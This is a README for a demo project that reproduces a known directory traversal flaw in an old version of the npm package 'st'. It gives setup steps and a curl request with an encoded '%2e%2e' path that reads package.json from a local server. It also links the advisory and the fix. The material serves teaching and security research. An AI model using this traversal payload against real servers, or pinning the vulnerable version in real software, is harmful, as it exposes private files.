 # vulnst
![CI](https://github.com/kg0r0/vulnst/workflows/CI/badge.svg)  
Directory Traversal Demo of npm [st](https://www.npmjs.com/package/st).

## Usage

```
$ npm install
$ npm start
$ curl http://localhost:3000/public/%2e%2e/package.json
{
  "name": "stvuln",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "pug": "2.0.0-beta11",
    "st": "^0.2.4"
  }
}
```

## References
- https://snyk.io/vuln/npm:st:20140206
- https://github.com/isaacs/st/compare/v0.2.4...v0.2.5
